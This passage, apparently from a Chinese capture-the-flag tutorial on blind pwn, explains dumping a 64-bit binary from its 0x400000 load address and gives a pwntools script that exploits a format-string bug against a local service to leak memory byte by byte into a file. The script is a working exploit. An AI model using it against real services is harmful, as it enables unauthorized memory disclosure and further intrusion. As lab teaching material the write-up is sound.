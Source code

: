 从程序加载地方开始，或者从 text 段开始可以的。这里不再找 text 段起始位置，直接从程序加载地方开始泄露。两个位数程序脚本通用的，改一下参数即可。

**64 位程序加载起始地址是：0x400000**，下面是对比图：

![](_images/Bilnd_Pwn/2020-06-26-CTSvll4wMcTxU1DR-20210112001632741.png)

脚本还是那个脚本，改一下参数即可：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
#r = remote('127.0.0.1',10001)
r = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('moxiaoxi')
r.recv()

# leak
begin = 0x400000#0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin_64','wb') as f:
        f.write(text_seg)
```